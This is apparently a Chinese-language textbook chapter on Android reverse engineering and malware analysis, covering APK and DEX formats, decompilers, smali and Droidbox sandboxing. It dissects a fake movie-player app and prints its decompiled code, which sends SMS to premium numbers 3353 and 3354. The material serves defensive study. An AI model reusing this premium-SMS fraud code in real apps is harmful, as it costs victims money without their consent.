在开始恶意软件分析之前，有必要熟悉 Android 平台。从分析角度来看，最有趣的信息可能涉及应用程序如何工作和执行。以下部分解释了 Android 应用程序包 (APK)、重要配置文件（如 AndroidManifest）以及在 Dalvik 虚拟机上运行的可执行文件格式 DEX。

### Android 应用程序包

Android 应用程序包 (APK) 是一种用于分发 Android 操作系统应用程序的存档格式。APK 存档包含应用程序所需的所有文件，是以单个文件处理和传输应用程序的便捷方式。存档文件格式是广泛流行的 ZIP 文件格式。这使其与 Java 存档 (JAR) 非常相似，JAR 也使用 ZIP。

因为 APK 文件只是带有不同文件扩展名的 ZIP 存档，所以无法将它们与其他 ZIP 存档区分开。魔数是指用于识别特定文件格式的一组字节（通常位于文件开头）。Linux file 命令可用于确定文件类型。以下是 APK 的 file 命令输出：

```
$ md5sum demo.apk
964d084898a5547d4644aa7a9f2b8c0d  demo.apk
$ file demo.apk
demo.apk: Zip archive data, at least v2.0 to extract
```

如预期，文件类型被报告为 ZIP 存档。以下输出显示了 ZIP 文件格式的魔数：

```
$ hexdump -C -n 4 demo.apk
00000000  50 4b 03 04                                        |PK..|
```

前两个字节是可打印字符 PK，代表 ZIP 文件格式发明者 Phil Katz 的姓名首字母，后面跟着另外两个字节：03 04。要检查 APK 存档的内容，只需使用任何支持该格式的工具将其“解压缩”。以下是解压缩 APK 存档内容的示例：

```
$ unzip demo.apk -d demo
Archive:  demo.apk
  inflating: demo/res/layout/activity_main.xml
  inflating: demo/res/menu/main.xml
 extracting: demo/res/raw/a1.mp3
 extracting: demo/res/raw/a2.mp3
  inflating: demo/AndroidManifest.xml
 extracting: demo/resources.arsc
 extracting: demo/res/drawable-hdpi/back.jpg
 ...
 extracting: demo/res/drawable-xxhdpi/ic_launcher.png
  inflating: demo/classes.dex
  inflating: demo/jsr305_annotations/jsr305_annotations.gwt.xml
  inflating: demo/jsr305_annotations/v0_r47/V0_r47.gwt.xml
  inflating: demo/META-INF/MANIFEST.MF
  inflating: demo/META-INF/CERT.SF
  inflating: demo/META-INF/CERT.RSA
```

此输出显示了一个相当极简的 APK 存档的通用结构。根据 APK 类型和内容，它可以包含各种文件和资源，但单个 APK 在 Android 2.2 或更低版本上最大只能为 50MB，在 Android 2.3 及更高版本上最大只能为 100MB。¹


注意 APK 存档最大可达 100MB，但可以有最多两个额外的扩展文件，每个大小可达 2GB。这些额外文件也可以托管在 Android Market 上。扩展文件的大小会加到 APK 的大小中，因此市场上应用程序的大小将是 APK 和扩展文件的总和。


以下是 APK 目录结构和常见文件的概述：

- AndroidManifest.xml 此 XML 文件存在于每个 APK 的根目录中。它包含应用在 Android 系统上运行所需的应用信息。有关此文件的更多信息将在即将到来的章节中介绍。

- META-INF 此目录包含与 APK 元数据相关的几个文件，例如证书或清单文件。

- CERT.RSA 应用程序的证书文件。在此示例中，这是一个 RSA 证书，但它可以是任何受支持的证书算法（例如，DSA 或 EC）。

- CERT.SF 包含 MANIFEST.MF 文件中的列表条目，以及其中各行哈希值。CERT.SF 随后被签名，并可用于使用传递关系验证 MANIFEST.MF 文件中的所有条目。可使用以下命令检查清单文件中的条目：`jarsigner -verbose -verify -certs apk_name.apk`

- MANIFEST.MF 包含所有应签名文件的文件名列表，以及其内容的哈希值。此文件中的所有条目应在 CERT.SF 中哈希，随后可用于确定 APK 中文件的有效性。

- classes.dex 此 Dalvik 可执行文件 (DEX) 包含要在 Android 操作系统上由 Dalvik 虚拟机执行的程序字节码。

- res 此文件夹包含原始或已编译的资源文件，例如图像、布局、字符串等。

- resources.arsc 此文件仅包含预编译的资源，例如 XML 文件。

## 应用程序清单

Android 应用程序清单文件 AndroidManifest.xml 位于每个 Android 应用程序的根目录中。此文件包含有关应用程序及其组件、所需权限、使用的库、Java 包等的基本信息。AndroidManifest.xml 文件以二进制 XML 格式存储在 APK 中，因此在分析之前必须将其转换为文本表示形式。有许多可用的工具可以从二进制 XML 格式转换，在本节中我们使用 apktool，它是一组可用于解码清单文件、资源、将 DEX 文件反编译为 smali 等的工具和库。要解码 APK，请使用 d 选项执行 apktool，如下所示：

```
$ apktool d demo.apk demo_apk
I: Baksmaling...
I: Loading resource table...
I: Loaded.
I: Loading resource table from file: /home/demo/apktool/framework/1.apk
I: Loaded.
I: Decoding file-resources...
I: Decoding values/* XMLs...
I: Done.
I: Copying assets and libs...
```

apktool 提取并解码所有文件后，可以在任何文本编辑器中查看清单。AndroidManifest.xml 文件的示例如下：

```
$ cat demo_apk/AndroidManifest.xml
<?xml version="1.0" encoding="utf-8"?>
<manifest package="org.me.androidapplication1"
    xmlns:android="http://schemas.android.com/apk/res/android">
    <application android:icon="@drawable/icon">
        <activity android:label="Movie Player" android:name=".MoviePlayer">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
    <uses-permission android:name="android.permission.SEND_SMS" />
</manifest>
```

在逆向工程 Android 恶意软件时，清单文件中有以下重要字段：

- manifest 元素定义 package 元素，即应用程序的 Java 包名。包名用作唯一标识符，并类似于 Java 包命名方案。包名表示包层次结构，类似于域名，但方向相反。顶级域 (TLD) 在最左侧并表示根节点，如第 1 行所示，翻转后解析为 androidapplication1.me.org。

- application 元素声明应用程序部分，而其子元素声明各种应用程序组件——图标、权限、进程等。

- activity 元素定义将显示给用户的应用程序可视化表示。android:label 属性下的标签 "电影播放器" 定义在触发活动时显示给用户的字符串（例如，显示给用户的 UI）。另一个重要属性是 android:name，它定义实现该活动的类名。

- intent-filter 元素连同 action 和 category 元素描述 intent，即可用于请求其他应用程序组件执行操作的消息对象。² action 元素使用以下操作名定义应用程序的主入口：android.intent.action.MAIN。category 元素对此 intent 进行分类并指示它应使用以下名称列在应用程序启动器中：android.intent.category.LAUNCHER。单个 activity ③ 元素可以具有一个或多个描述其功能的 intent-filter。

- uses-permission 元素 ⑧ 在查找可疑应用程序时非常相关。一个或多个此类元素定义了应用程序正常运行所需的所有权限。在安装并授予应用程序这些权限后，它可以随意使用它们。android:name 属性定义应用程序请求的特定权限。在此示例中，该应用程序（自称为电影播放器）需要 android.permission.SEND_SMS，这将允许它向任意号码发送所需内容的短消息服务 (SMS) 消息。这显然引发了对该应用程序合法性的怀疑，并需要进一步调查。


注意 本示例仅包含可能的清单元素和属性的一小部分子集。在分析复杂的清单文件时，请查阅 Android 开发者参考³ 以充分了解不同的元素和属性。

## 分析 DEX

Dalvik 可执行文件 (DEX) 格式包含由 Android Dalvik 虚拟机执行的字节码。DEX 字节码是构成类文件的 Java 字节码的近亲。反汇编中使用的指令非常相似，熟悉 Java 指令的人不需要太多时间就能适应 Dalvik。与反汇编 Java 相比，反汇编 Dalvik 的一个明显区别是主要使用寄存器而不是堆栈。Dalvik 虚拟机 (VM) 具有基于寄存器的架构，而 Java 具有基于堆栈的架构。Dalvik VM 指令操作 32 位寄存器，这意味着寄存器为对其进行操作的指令提供数据。每个方法都必须定义其使用的寄存器数量。该数量还包括分配给参数传递和返回值的寄存器。在 Java VM 中，指令从堆栈获取参数并将结果推回堆栈。为了说明这一差异，以下清单显示了在交互式反汇编器 (IDA) 中函数开头的 Dalvik 反汇编：

```
CODE:0002E294 # Method 3027 (0xbd3)
CODE:0002E294 ①.short 0xa # Number of registers : 0xa
CODE:0002E296 ②.short 3 # Size of input args (in words) : 0x3
CODE:0002E298 ③.short 5 # Size of output args (in words) : 0x5
...
CODE:0002E2A4 # Source file: SMSReceiver.java
CODE:0002E2A4 public void com.google.beasefirst.SMSReceiver.onReceive(
...
CODE:0002E2A6 invoke-virtual {intent}, <ref Intent.getAction()
imp. @_def_Intent_getAction@L>
CODE:0002E2AC move-result-object ④v2
CODE:0002E2AE const-string ⑤v3, aAndroid_provid
# "android.provider.Telephony.SMS_RECEIVED"
CODE:0002E2B2 invoke-virtual ⑥{v2, v3}, <boolean String.equals(ref)
imp. @_def_String_equals@ZL>
CODE:0002E2B8 move-result ⑦v2
CODE:0002E2BA if-eqz ⑧v2, locret
```

标记为 ①、② 和 ③ 的行是函数定义的一部分，显示方法使用的寄存器数量及其在输入参数和输出返回值之间的分配。④、⑤、⑥、⑦ 和 ⑧ 处的指令使用两个寄存器：v2 和 v3。Dalvik 中的寄存器使用字符前缀 v，后跟寄存器编号。该前缀用于将这些寄存器标记为“虚拟”并将它们与物理硬件 CPU 寄存器区分开来。现在，以下是使用 Java 字节码的同一函数反汇编：

```
; Segment type: Pure code
.method public onReceive(Landroid/content/Context;Landroid/content/Intent;)V
.limit stack 5
.limit locals 4
①aload_2 ; met003_slot002
invokevirtual android/content/Intent.getAction()Ljava/lang/String;
②ldc "android.provider.Telephony.SMS_RECEIVED"
invokevirtual java/lang/String.equals(Ljava/lang/Object;)Z
ifeq met003_393
new com/google/beasefirst/NetUtil
③dup
invokespecial com/google/beasefirst/NetUtil.<init>()V
④aload_1 ; met003_slot001
⑤ldc "com.google.beasefirst"
```

如您所见，没有引用寄存器；相反，所有操作都是通过堆栈完成的。可以在 ①、②、③、④ 和 ⑤ 处找到使用堆栈操作的指令示例。例如，dup 指令 ③ 会复制堆栈顶部的值，以便堆栈顶部有两个这样的值。

由于 DEX 和 Java 类文件相关，因此可以在一种格式与另一种格式之间转换。由于 Java 拥有更悠久的历史并且已为分析、反汇编和尤其是反编译开发了大量工具，因此了解如何将 DEX 转换为 JAR 很有用。Dex2jar 项目⁴ 是一组可与 DEX 协同工作的程序的集合。


files。其中最有趣的是 dex2jar，它可以将 DEX 文件转换为 Java 字节码。下面的清单展示了如何运行 dex2jar 命令并从 DEX 转换为 JAR，在之前的示例中使用 IDA 比较两个反汇编器输出时曾用到它：

```
$ ~/android/dex2jar-0.0.9.15/d2j-dex2jar.sh -v classes.dex
dex2jar classes.dex -> classes-dex2jar.jar
Processing Lorg/me/androidapplication1/MoviePlayer;
Processing Lorg/me/androidapplication1/R$layout;
Processing Lorg/me/androidapplication1/R;
Processing Lorg/me/androidapplication1/R$string;
Processing Lorg/me/androidapplication1/HelloWorld;
Processing Lorg/me/androidapplication1/R$attr;
Processing Lorg/me/androidapplication1/DataHelper$OpenHelper;
Processing Lorg/me/androidapplication1/DataHelper;
Processing Lorg/me/androidapplication1/R$drawable;
$ file classes-dex2jar.jar
classes-dex2jar.jar: Zip archive data, at least v2.0 to extract
$ unzip classes-dex2jar.jar -d java_classes
Archive: classes-dex2jar.jar
creating: java_classes/org/
creating: java_classes/org/me/
creating: java_classes/org/me/androidapplication1/
inflating: java_classes/org/me/androidapplication1/MoviePlayer.class
inflating: java_classes/org/me/androidapplication1/R$layout.class
inflating: java_classes/org/me/androidapplication1/R.class
inflating: java_classes/org/me/androidapplication1/R$string.class
inflating: java_classes/org/me/androidapplication1/HelloWorld.class
inflating: java_classes/org/me/androidapplication1/R$attr.class
inflating: java_classes/org/me/androidapplication1/DataHelper$OpenHelper.class
inflating: java_classes/org/me/androidapplication1/DataHelper.class
inflating: java_classes/org/me/androidapplication1/R$drawable.class
```

## Java 反编译

大多数人发现阅读像 Java 这样的高级代码比阅读 Java 虚拟机（JVM）反汇编要容易得多。由于 JVM 相当简单，反编译过程是可行的，可以从 class 文件中恢复 Java 源代码。Dex2jar 将所有 Java 反编译器工具带入 Android 世界，并允许轻松反编译用 Java 编写的 Android 应用程序。

网上有许多 Java 反编译器可用，但其中大多数都已过时且不再维护。JD 反编译器⁵ 可能是最流行、最知名的反编译器。它还支持三种不同的 GUI 应用程序来查看源代码：JD-GUI、JD-Eclipse 和 JD-IntelliJ。JD-GUI 是一个自定义 GUI，用于快速分析源代码，无需安装大型 Java 编辑器。JD-GUI 适用于 Windows、macOS 和 Linux 操作系统。

要反编译 DEX 文件，首先需要使用 dex2jar 将其转换为 JAR 文件，然后使用 JD-GUI 打开它。下面展示了如何使用 dex2jar：

```
$ ~/android/dex2jar-0.0.9.15/d2j-dex2jar.sh classes.dex
dex2jar classes.dex -> classes-dex2jar.jar
```

要在 JD-GUI 中查看源代码，请打开文件 classes-dex2jar.jar。图 18-1 显示了带有反编译 Java 源代码的 JD-GUI。可以使用 File | Save All Sources 选项从 JD-GUI 导出所有反编译的 class 文件。


图 18-1 JD-GUI 反编译的 Java 源代码

反编译器的一个问题是它们对字节码修改非常敏感，这可能会阻止它们恢复任何有意义的源代码。反编译器的另一个问题是它们不提供与反汇编的并排比较，错误的反编译可能导致输出中缺少功能。在处理恶意代码时，始终建议你仔细检查反汇编，查找可能从反编译器中隐藏的任何可疑代码和功能。在 JD 无法确定反编译代码的情况下，它将输出 class 文件的反汇编。以下是 JD 对无法反编译的函数的反汇编输出：

```
/* Error */
private String DownloadText(String paramString)
{
    // Byte code:
    // 0: aload_0
    // 1: aload_1
    // 2: invokespecial 63
    com/example/smsmessaging/TestService:OpenHttpConnection
    (Ljava/lang/String;)Ljava/io/InputStream;
    // 5: astore_3
```

## DEX 反编译

先前提到的 DEX 反编译的问题是，文件首先必须转换为 JAR 格式，然后使用 Java 工具进行反编译。在这种情况下，有两个故障点：DEX 的转换和 JAR 的反编译。JEB 反编译器⁶ 旨在通过直接对 DEX 文件执行反编译来解决这个问题。它附带了一个非常方便的 GUI，与 IDA 非常相似，提供了熟悉的用户体验。与 JD 反编译器不同，JEB 是一款商业产品，单个许可证的价格为 1,080 美元。⁷ 以下是 JEB 提供的部分功能：

- 直接反编译 Dalvik 字节码
- 具有交叉引用和重命名方法、字段、类及包功能的交互式分析 GUI
- 浏览完整 APK，包括清单文件、资源、证书、字符串等等
- 支持将分析过程中所做的修改保存到磁盘并共享文件以进行协作
- 支持 Windows、Linux 和 macOS

图 18-2 显示了使用 JEB 反编译的 DEX 文件。与上一节中使用 JD 生成反编译 Java 代码所用的 DEX 文件相同。


## 图 18-2 使用 JEB 进行的 DEX 反编译

总体而言，JEB 是唯一面向逆向工程师的商业软件，提供直接分析 DEX 文件的功能。凭借 IDA 的外观和感觉，JEB 无疑会吸引熟悉 IDA 的人。

另一个原生 DEX 反编译器是 DAD，它是开源 Androguard 项目的一部分。该项目包含分析 Android 应用程序所需的一切，还拥有许多针对恶意软件分析的有趣脚本。你可以通过简单调用 androdd.py 脚本来使用 DAD 反编译器，如下所示：

```
$ ./android/androguard/androdd.py -i demo.apk -o dad_java
Dump information demo.apk in dad_java
Create directory dad_java
Analysis ... End
Decompilation ... End
...
Dump Lorg/me/androidapplication1/R$drawable;
OFLLog (Ljava/lang/String; Ljava/lang/String;)V ... bytecodes ...
```

DAD 不附带用于读取反编译源代码的 GUI，但任何文本或 Java 编辑器（如 IntelliJ 或 NetBeans）可能更适合分析源代码。反编译的代码存储在指定的目录 dad_java 中，可以用任何文本编辑器打开。以下显示了反编译的 MoviePlayer.java 的一部分：

```
$ cat dad_java/org/me/androidapplication1/MoviePlayer.java
...
android.telephony.SmsManager v0 =
android.telephony.SmsManager.getDefault();
try {
v0.sendTextMessage("3353", 0, "798657", 0, 0);
try {
v0.sendTextMessage("3354", 0, "798657", 0, 0);
} catch (Exception v7) {
android.util.Log.e("Oops in playsound", "", v7);
}
...

```

## DEX 反汇编

当其他所有方法都失败时，总有一个反汇编器在等待。阅读反汇编输出可能不是最吸引人的任务，但这是一项非常有用的技能。在分析复杂或混淆的恶意软件时，反汇编代码是理解功能并制定去混淆方案的唯一可靠方法。

Smali/baksmali 是 Dalvik 使用的 DEX 格式的汇编器/反汇编器。其语法大致基于 Jasmin/Dedexer 语法，并支持 DEX 格式的完整功能（注释、调试信息、行信息等等）。¹⁰

汇编功能是一个非常有趣的好处，因为它允许在汇编级别上进行修改和代码转换，而无需补丁和操作字节。使用 baksmali 反汇编 DEX 文件的语法非常简单，可以在下面的清单中看到：

```
$ java -jar ~/android/smali/baksmali-2.0.3.jar -o disassembled classes.dex
$ find ./disassembled/
...
./disassembled/org/me/androidapplication1/R$drawable.smali
./disassembled/org/me/androidapplication1/R$attr.smali
./disassembled/org/me/androidapplication1/DataHelper$OpenHelper.smali
./disassembled/org/me/androidapplication1/MoviePlayer.smali
```


如图所示，baksmali 命令的输出是以其各自 Java 类名命名并带有 .smali 文件扩展名的文件。可以使用任何文本编辑器查看 Smali 文件。以下清单显示了 MoviePlayer.smali 文件的片段：

```
.class public Lorg/me/androidapplication1/MoviePlayer;
.super Landroid/app/Activity;
.source "MoviePlayer.java"
...
    .line 34

invoke-virtual {p0, v9}, Lorg/me/androidapplication1/MoviePlayer
    ;->setContentView(Landroid/view/View;)V

    .line 35
    invoke-static {}, Landroid/telephony/SmsManager
    ;->getDefault()Landroid/telephony/SmsManager;

    move-result-object v0
    .line 54
    .local v0, "m":Landroid/telephony/SmsManager;
    const-string v1, "3353"
    .line 55
    .local v1, "destination":Ljava/lang/String;
    const-string v3, "798657"
```

为了使阅读 smali 文件更加愉快，针对 VIM、Sublime 和 Notepad++ 等各种编辑器有许多语法高亮插件。各种编辑器的插件链接可在“进一步阅读”部分中找到。

从 APK 直接生成 baksmali 反汇编的另一种方法涉及使用 apktool，它是一个方便的封装工具，用于解码所有二进制 XML 文件（包括 Android 清单和资源），并使用 baksmali 反汇编 DEX 文件。只需运行 apktool，即可分解 APK 文件并使其准备好供检查，如以下清单所示：

```
$ apktool -q d demo.apk demo_apktool
$ find ./demo_apktool
./demo_apktool
./demo_apktool/apktool.yml
./demo_apktool/AndroidManifest.xml
...
./demo_apktool/res/values/strings.xml
...
./demo_apktool/smali/org/me/androidapplication1/R$attr.smali
./demo_apktool/smali/org/me/androidapplication1/MoviePlayer.smali
```

### 示例 18-1：在模拟器中运行 APK


注意 此练习作为示例而非实验提供，因为执行该练习需要恶意代码。

分析应用程序时，在手机上观察它们运行以及检查其行为和实现的功能非常有价值。在 Android 手机上运行不可信应用程序的一种安全方法是使用模拟器。Android SDK 包含一个模拟器以及可在多种不同设备类型和尺寸上运行的各种操作系统版本。使用 Android 虚拟设备 (AVD) 管理器管理虚拟机。AVD 管理器用于为虚拟设备创建和配置各种选项和设置。可以使用 android 命令并将 avd 作为参数传递给它来启动 AVD 管理器 GUI，如下所示：

```
$ ~/android/adt-bundle-linux-x86_64-20140321/sdk/tools/android avd
```

Android 虚拟设备管理器启动后，单击菜单右侧的 New 按钮，并在显示的对话框中创建新设备，如图 18-3 所示。


图 18-3 新建 AVD 配置

下一步是通过运行以下命令启动先前创建的 AVD：

```
$ ~/android/adt-bundle-linux-x86_64-20140321/sdk/tools/android list avd
```

Available Android Virtual Devices:
Name: Demo_AVD
Device: Nexus 4 (Google)
Path: /home/demo/.android/avd/Demo_AVD.avd
Target: Android 4.3 (API level 18)
Tag/ABI: default/armeabi-v7a
Skin: 768x1280
Sdcard: 1024M

```
$ ~/android/adt-bundle-linux-x86_64-20140321/sdk/tools/emulator -avd Demo_AVD
```

可以使用 adb 命令将 APK 包安装到正在运行的模拟器上，如以下清单所示：

```
$ ~/android/adt-bundle-linux-x86_64-20140321/sdk/platform-tools/adb \
install demo.apk
* daemon not running. starting it now on port 5037 *
* daemon started successfully *
238 KB/s (13702 bytes in 0.055s)
    pkg: /data/local/tmp/demo.apk
Success
```

安装后，可以在模拟器运行的设备的应用程序列表中找到该应用程序。图 18-4 显示了应用程序列表以及其他已安装应用程序中的 Movie Player 应用程序。有关已安装应用程序、其权限、内存使用量等更多信息，可在应用程序菜单的 Settings | Apps | org.me.androidapplication1 下找到。


图 18-4 已安装的应用程序列表

动态分析是一种非常重要的逆向工程技术。运行并观察应用程序实际运行的能力可以提供有关功能和潜在恶意活动的重要线索。Android 模拟器附带多种 Android 操作系统版本，可用于在 Android 生态系统中测试漏洞和恶意软件影响。

## 恶意软件分析

本节概述了 Android 恶意软件分析工作流，并介绍了分析所需的工具。Android 上的逆向工程和恶意软件分析遵循与 Windows、Linux 或 macOS 上的分析相同的原则和技术。查看恶意样本时，仍有一些特定于 Android 架构的细节可以提供重要线索。

对于恶意软件分析，通常有两项不同的任务：

- 确定样本是否为恶意。
- 确定样本的恶意功能。

通常来说，确定某事物是否恶意（或可疑）比理解其恶意功能要容易得多。要回答恶意性问题，可以使用以下检查清单：

- *该应用程序是否流行且被许多人使用或安装在大量机器上？* 应用程序越流行，就越不可能包含非常糟糕的内容。当然，这并不意味着没有不好的东西，但风险通常较低，因为庞大的用户群意味着应用程序的错误和问题更容易暴露。因此，如果存在许多用户投诉，仍然值得调查。
- *该应用程序是否在 Google Play 上存在了很长时间且没有不良记录？* 此检查与第一项相关，可用于加强决策。拥有长期无问题记录的非常流行的应用程序不太可能是分发有害内容的明显候选者，因为这将损害其声誉。
- 作者是否发布了评分良好的其他应用程序？
- *该应用程序是否请求敏感权限？* 在 Android 世界中，应用程序的危险程度与其获得的权限一样大。以下是一些应谨慎授予的敏感权限，尤其是在请求许多权限时：
  - Phone READ_PHONE_STATE, CALL_PHONE, READ_CALL_LOG, WRITE_CALL_LOG, ADD_VOICEMAIL, USE_SIP, PROCESS_OUTGOING_CALLS
  - Calendar READ_CALENDAR, WRITE_CALENDAR
  - Contacts READ_CONTACTS, WRITE_CONTACTS, GET_ACCOUNTS
  - Microphone RECORD_AUDIO
  - Location ACCESS_COARSE_LOCATION, ACCESS_FINE_LOCATION
  - SMS SEND_SMS, READ_SMS, RECEIVE_SMS, RECEIVE_WAP_PUSH, RECEIVE_MMS
  - Storage READ_EXTERNAL_STORAGE, WRITE_EXTERNAL_STORAGE
- *该应用程序是否包含混淆或会使已知分析工具崩溃？* 恶意软件作者已知会利用分析软件中的各种漏洞和弱点来阻碍分析过程。一些商业应用程序也采用各种混淆来防止破解者进行盗版，但这在免费或简单的应用程序中并不常见。
- *该应用程序是否联系任何可疑域名？* 恶意软件作者喜欢重复使用域名，因此在不同的恶意软件样本中发现相同的恶意域名很常见。
- *检查字符串表时，您能识别出任何看起来可疑的字符串吗？* 类似于 Windows 可执行文件的恶意软件分析，查看应用程序的字符串列表可以提供关于恶意应用程序的线索。

### 恶意软件分析入门

本节将查看一个示例 Android 应用程序，并尝试确定其中是否存在任何恶意内容。由于该应用程序不来自 Google Play 市场，前一节中的前三项检查将被跳过，分析将继续从“该应用程序是否请求敏感权限？”这一问题开始。

这个问题的答案在于 AndroidManifest.xml。由于我们已经讨论过如何转换清单文件并读取其内容，可以使用一些方便的 Androguard 脚本来加快此过程。Androperm 是一个仅输出 APK 权限的简单脚本。脚本输出示例如下：

```
$ ls /tmp/apk/*.apk
-rw-rw-r-- 1 demo demo 14K Apr 24 08:05 /tmp/apk/demo.apk
$ md5sum /tmp/apk/demo.apk
964d084898a5547d4644aa7a9f2b8c0d  /tmp/apk/demo.apk
$ ~/android/androguard/androperm.py -d /tmp/apk
/tmp/apk/demo.apk[1908342623]: ['android.permission.SEND_SMS']
```

SEND_SMS 绝对是一个看起来可疑的权限。它通常与高级 SMS 诈骗相关联，会给受感染用户造成金钱损失。接下来可以使用 androapkinfo 脚本来获取带有各种恶意软件导向细节的应用程序摘要概述。以下是 androapkinfo 的简化输出：


```
$ ~/android/androguard/androapkinfo.py -d /tmp/apk
demo.apk:
FILES:
...
PERMISSIONS:
①android.permission.SEND_SMS ['dangerous', 'send SMS messages',
'Allows application to send SMS messages. Malicious applications may cost
you money by sending messages without your confirmation.']
MAIN ACTIVITY: org.me.androidapplication1.MoviePlayer
ACTIVITIES:
②org.me.androidapplication1.MoviePlayer
{'action': [u'android.intent.action.MAIN'],
'category': [u'android.intent.category.LAUNCHER']}
SERVICES:
RECEIVERS:
PROVIDERS: []
Native code: False
Dynamic code: False
③Reflection code: False
④Ascii Obfuscation: False
...
Lorg/me/androidapplication1/MoviePlayer; OFLog ['ANDROID', 'UTIL']
⑤Lorg/me/androidapplication1/MoviePlayer; onCreate ['ANDROID', 'TELEPHONY',
'SMS', 'WIDGET', 'APP', 'UTIL']
Lorg/me/androidapplication1/R$layout; OFLog ['ANDROID', 'UTIL']
...
⑥Lorg/me/androidapplication1/HelloWorld; onCreate ['ANDROID', 'TELEPHONY',
'SMS', 'WIDGET', 'APP', 'UTIL']
Lorg/me/androidapplication1/R$attr; OFLog ['ANDROID', 'UTIL']
...
```

再次，我们有应用程序所需的权限列表 ①，以及关于其潜在恶意用途的实用消息。③ 和 ④ 处的检查是可疑代码混淆技术的指标。此外，我们有一个可用作代码分析入口点的活动列表 ②。最后，我们有一个使用 SMS 功能的类文件列表 ⑤⑥，应进行调查以确认 SMS 权限未被滥用。

```
$ ~/android/androguard/androdd.py -i /tmp/apk/demo.apk -o /tmp/apk/demo_dad
Dump information /tmp/apk/demo.apk in /tmp/apk/demo_dad
Create directory /tmp/apk/demo_dad
Analysis ... End
Decompilation ... End
...
$ find /tmp/apk/demo_dad/ -iname "movieplayer.java"
/tmp/apk/demo_dad/org/me/androidapplication1/MoviePlayer.java
$ find /tmp/apk/demo_dad/ -iname "helloworld.java"
/tmp/apk/demo_dad/org/me/androidapplication1/HelloWorld.java
```

主活动在 MoviePlayer.java 中实现，这使其成为分析的良好候选者。该文件可以在任何文本编辑器中查看，但最好是带有 Java 语法高亮的编辑器。接下来给出了使用 SMS 功能的函数 onCreate 的完整代码清单：

```
public void onCreate(android.os.Bundle p13)
{
    super.onCreate(p13);
    org.me.androidapplication1.DataHelper v6;
    v6 = new org.me.androidapplication1.DataHelper(this);
    if (v6.canwe()) {
        android.widget.TextView v9 = new android.widget.TextView(this);
        ①v9.setText("\u041f\u0435\u043d\u044c\u0441\u0438\u043b\u044b\n");
        this.setContentView(v9);
        ②android.telephony.SmsManager v0 = android.telephony.SmsManager.getDefault();
        try {
            ③v0.sendTextMessage("3353", 0, "798657", 0, 0);
            try {
                ④v0.sendTextMessage("3354", 0, "798657", 0, 0);
            } catch (Exception v7) {
                android.util.Log.e("Oops in playsound", "", v7);
            }
            try {
                ⑤v0.sendTextMessage("3353", 0, "798657", 0, 0);
            } catch (Exception v7) {
                android.util.Log.e("Oops in playsound", "", v7);
            }
            v6.was();
        } catch (Exception v7) {
            android.util.Log.e("Oops in playsound", "", v7);
        }
    }
    this.finish();
    return;
}
```

该函数的首个可疑之处在于 Unicode 文本缓冲区 ①。这只是反编译器输出文本编辑器可能无法正确显示的 Unicode 字符串的一种安全方式。在此例中，字符串为西里尔字母，翻译成英文的含义如下："Wait, access to the video library requested...." 接下来，变量 v0 被初始化为 SmsManager 对象 ②。在标记为 ③、④ 和 ⑤ 的行上，代码正在尝试发送短信。函数 sendTextMessage 具有如下原型：

```
Void sendTextMessage(String destinationAddress, String scAddress, String text, PendingIntent sentIntent, PendingIntent deliveryIntent)
```

在此例中，destinationAddress 为号码 3353 和 3354，而 text 参数在所有三种情况下均为 798657。这两个号码属于高级短信服务，其费用高于普通短信服务，自定义短信可能用于区分发送资金的附属方。

该代码显然不像电影播放器应用程序，快速查看其他反编译文件显示代码非常少，且没有任何迹象表明与宣传功能相关。这种类型的恶意软件在手机上非常普遍，因为它可以为作者带来即时的经济收益。

黑盒模拟器环境是监控恶意软件样本并无需读取代码即可了解其功能的非常有用的工具。Droidbox 是一个修改过的 Android 镜像，提供 API 监控功能。它使用 baksmali/smali 重写应用程序，并使用自定义 Android 模拟器镜像记录所有受监控 API 及其参数。这种方法是了解恶意应用程序或验证静态分析方法发现结果的良好第一步。

## 示例 18-2：使用 Droidbox 进行黑盒 APK 监控


注意 此练习作为示例而非实验提供，因为执行该练习需要恶意代码。

Droidbox 随附修改过的 Android 镜像，解压 Droidbox 镜像归档后即可轻松启动。第一步是运行自定义 Android 镜像，如下所示：

```
$ ~/android/droidbox-read-only/DroidBox_4.1.1/emulator -avd DBOX \ -system images/system.img -ramdisk images/ramdisk.img -wipe-data \ -prop dalvik.vm.execution-mode=int:portable
```

镜像启动后，即可在模拟器内运行恶意应用程序并收集日志。可通过 droidbox.sh 脚本在模拟器中对应用程序进行插桩，如下所示：

```
$ ~/android/droidbox-read-only/DroidBox_4.1.1/droidbox.sh demo.apk
...
Waiting for the device...
Installing the application /home/demo/apk_samples/demo.apk...
Running the component
org.me.androidapplication1/org.me.androidapplication1.MoviePlayer...
Starting the activity .MoviePlayer...
Application started
Analyzing the application during infinite time seconds...
[\] Collected 10 sandbox logs  (Ctrl-C to view logs)
{
"apkName": "/home/demo/apk_samples/demo.apk", "enfperm": [], "recvnet": {},
"servicestart": {}, "sendsms": {"1.0308640003204346": {"message": "798657",
"type": "sms", "number": "3353"}, "1.1091651916503906": {"message": "798657",
"type": "sms", "number": "3354"}, "1.1251821517944336": {"message": "798657",
...}
}
```

经过任意时间后，您可以按 CTRL-C 停止监控，这将以 JavaScript 对象表示法 (JSON) 格式输出日志。前一清单中的输出已为简洁而精简。如需以更友好的方式格式化 JSON，请使用以下命令：

```
$ cat droidbox.json | python -mjson.tool
...
```

```
...
"sendsms": {
	"1.0308640003204346": {
		"message": "798657",
		"number": "3353",
		"type": "sms"
	},
	"1.1091651916503906": {
		"message": "798657",
		"number": "3354",
		"type": "sms"
	},
	"1.1251821517944336": {
		"message": "798657",
		"number": "3353",
		"type": "sms"
	}
},
"servicestart": {}
}
```

从输出中可以很快看出，该应用程序正在发送三条短信，正如我们之前讨论过的。能够以如此简单的方式观察和了解应用程序活动，使这种方法对于恶意软件分析非常有用。应当注意的是，这种方法不能单独使用，而必须伴随应用程序的逆向工程。像这种黑盒方法不能保证在监控期间会执行恶意功能，因此可能会遗漏部分或全部恶意代码。在这种情况下，可能会错误地认为应用程序不是恶意的，而实际上它只是隐藏了该功能。

为获得最佳效果，建议同时使用应用程序代码的静态分析和黑盒监控。

黑盒恶意软件分析是一种廉价的方式，可以快速了解恶意软件功能。它可以用于寻找用于更深入静态分析的有趣入口点。Droidbox 是一个易于使用的黑盒 Android 分析系统。它可以轻松扩展并转换为自动分析系统，以分类和处理大量样本，并在此基础上的生成报告构建知识。

## iOS 平台

